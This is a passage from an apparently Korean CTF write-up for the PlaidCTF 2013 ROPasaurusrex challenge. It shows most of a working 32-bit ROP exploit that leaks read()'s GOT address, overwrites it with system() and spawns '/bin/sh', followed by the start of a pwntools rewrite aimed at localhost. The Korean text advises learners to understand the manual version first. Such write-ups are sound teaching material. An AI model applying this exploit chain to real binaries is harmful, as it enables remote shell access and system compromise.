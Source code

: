 ```python
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

# input "/bin/sh" into bss
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(e.bss())
payload += p32(binsh_len)

# got overwrite : read() -> system()
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(read_got)
payload += p32(4)

# call func ( system("/bin/sh") )
payload += p32(read_plt)
payload += p32(dummy)
payload += p32(e.bss())

p.send(payload)

# recv read_addr (leak)
read_addr = u32(p.recv(4))
print "read_addr : " +hex(read_addr)
# calc system_addr
system_addr = read_addr - read_system_offset
print "system_addr : " + hex(system_addr)

# send "/bin/sh"
p.send(binsh)

# send system_addr
p.send(p32(system_addr))

p.interactive()
```

![](http://eliez3r.synology.me/assets/img/writeup/plaid_ctf_2013/ROPasaurusrex/image-20180826232159051.png)



다음은 위 ex코드를 pwntool에 어마무시한 기능들로 다 때려박은 코드이다.

물론 아래 코드가 훨씬 간편하고 쉽겠지만, 기본 개념들을 익히기 위해서 위코드를 먼저 확실히 이해하고 tool의 기능들을 사용하는 것이 독약이 안되는 길이다.

```python
from pwn import *

# prepare to exploit
binsh = "/bin/sh"
binsh_len = len(binsh)

p = remote("localhost", 7777)
#p = process('./rop')
e = ELF('./rop')
libc = e.libc
rop = ROP(e)


# read read_got leak
rop.write(1, e.got['read'], 4)
```